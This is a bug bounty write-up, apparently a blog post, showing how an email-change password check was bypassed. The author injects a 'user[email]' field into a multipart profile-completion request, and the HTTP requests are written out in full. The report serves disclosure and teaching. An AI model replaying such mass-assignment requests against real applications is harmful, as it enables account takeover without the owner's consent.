 ```yaml
---
layout: post
title: Bypassing Email change verifications
subtitle: 
tags: [write-up, incorrect authorization, low, takeaways, 250$]
comments: false
---
```


### Background

Many companies require you to enter your password in order to update your email. This is because if an account is compromised by cookie theft (XSS for instance), a determined attacker still needs to update the email address in order to reset the password and achieve a permanent account takeover.

In addition, it is a good practice to send a verification link to the new email to make sure that a user doesn't update his email address to an address he doesn't own, pretending to be someone else.

This program had the described above protections in place.

Changing email address requires password:

```shell
PUT /users/1337/update_email HTTP/1.1
Host: app.redacted.com

{
    "current_password":"guessing",
    "email":"attacker@gmail.com"
}
```

### Description

I noticed while setting up my account that a "Complete your profile" step was sending a strange request:

```
POST /complete_profile HTTP/1.1
Host: app.redacted.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryy4NAam5eM2a0BFbF

------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="utf8"
✓

------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="user[title]"

CEO
------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="user[phone]"

------WebKitFormBoundaryy4NAam5eM2a0BFbF--
```

The application usally operates standard CRUD operations with REST API but here, the request is using `Content-Type: multipart/form-data`. Another thing to notice here is that the path does not respect REST API. **As a bug hunter, this should be an hint that something might be vulnerable.**

Here are different things I tried:
  - Add `user[is_admin]` to achieve privilege escalation => Failed
  - Add `user[user_id]` of another account to the request to achieve an IDOR => Failed
  - Add `user[password]` to update password without knowing existing password => Failed

And finally:
  - Add `user[email]` to update email without knowing existing password => Successs

```
POST /complete_profile HTTP/1.1
Host: app.redacted.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryy4NAam5eM2a0BFbF

------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="utf8"
✓

------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="user[title]"

CEO
------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="user[phone]"

------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="user[email]"

attacker@gmail.com
------WebKitFormBoundaryy4NAam5eM2a0BFbF--
```

### Takeaways

 - Don't rush into the signup process. Take a close look at every requests using Burp.

    I usually Intercept everything in Burp during signup. It can take me up to 15 minutes only to complete this step but I truly believe this is time well invested if I plan to stick with the program. I use this as an opportunity to gather informations about the technologies used by the application.

    Internally, different teams are often responsible for the core application and for growth or user conversion. This means different code path could be used in the backend resulting to bypassing usual protections. Add to that communication issues between teams and you have the perfect cocktail for vulnerabilities to raise.

 - Learn what is important for the company
    
    In this particular case, because there are measures in place to prevent from updating emails without the password I decided to report. I later found a way to update the email address only once during signup, allowing someone to pretend to be someone else. This time I decided not to report as I know that it would not be of any interest.


### Summary

 - **Weakness**: Incorrect Authorization
 - **Reward**: 250$